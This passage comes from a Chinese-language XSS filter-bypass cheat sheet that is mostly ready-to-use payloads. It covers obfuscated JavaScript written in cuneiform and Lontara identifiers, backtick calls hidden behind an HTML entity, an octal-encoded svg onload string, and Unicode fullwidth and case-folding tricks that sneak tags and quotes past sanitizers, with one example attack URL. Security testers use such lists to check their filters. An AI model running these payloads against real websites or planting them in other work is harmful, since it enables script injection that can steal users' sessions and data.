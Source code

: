```javascript
𒀀='',𒉺=!𒀀+𒀀,𒀃=!𒉺+𒀀,𒇺=𒀀+{},𒌐=𒉺[𒀀++],
𒀟=𒉺[𒈫=𒀀],𒀆=++𒈫+𒀀,𒁹=𒇺[𒈫+𒀆],𒉺[𒁹+=𒇺[𒀀]
+(𒉺.𒀃+𒇺)[𒀀]+𒀃[𒀆]+𒌐+𒀟+𒉺[𒈫]+𒁹+𒌐+𒇺[𒀀]
+𒀟][𒁹](𒀃[𒀀]+𒀃[𒈫]+𒉺[𒀆]+𒀟+𒌐+"(𒀀)")()
```

### 使用Lontara绕过

```javascript
ᨆ='',ᨊ=!ᨆ+ᨆ,ᨎ=!ᨊ+ᨆ,ᨂ=ᨆ+{},ᨇ=ᨊ[ᨆ++],ᨋ=ᨊ[ᨏ=ᨆ],ᨃ=++ᨏ+ᨆ,ᨅ=ᨂ[ᨏ+ᨃ],ᨊ[ᨅ+=ᨂ[ᨆ]+(ᨊ.ᨎ+ᨂ)[ᨆ]+ᨎ[ᨃ]+ᨇ+ᨋ+ᨊ[ᨏ]+ᨅ+ᨇ+ᨂ[ᨆ]+ᨋ][ᨅ](ᨎ[ᨆ]+ᨎ[ᨏ]+ᨊ[ᨃ]+ᨋ+ᨇ+"(ᨆ)")()
```

更多方法 http://aem1k.com/aurebesh.js/#

### 使用ECMAScript6绕过

```html
<script>alert&DiacriticalGrave;1&DiacriticalGrave;</script>
```

### 使用8进制绕过

```javascript
javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76'
```

### 使用Unicode绕过

```javascript
小于号 < Unicode字符U+FF1C小于符号（编码为%EF%BC%9C）转换为U+003C

双引号 " Unicode字符U+02BA（编码为%CA%BA)转换为U+0022

单引号 ' Unicode字符U+02B9(编码为%CA%B9)转换为U+0027

例子
http://www.example.net/something%CA%BA%EF%BC%9E%EF%BC%9Csvg%20onload=alert%28/XSS/%29%EF%BC%9E/

%EF%BC%9E = >
%EF%BC%9C = <
```

使用Unicode字符转换为大写绕过

```javascript
İ (%c4%b0).toLowerCase() => i
ı (%c4%b1).toUpperCase() => I
ſ (%c5%bf) .toUpperCase() => S
K (%E2%84%AA).toLowerCase() => k

<ſvg onload=... > become <SVG ONLOAD=...>
<ıframe id=x onload=>.toUpperCase() become <IFRAME ID=X ONLOAD=>
```
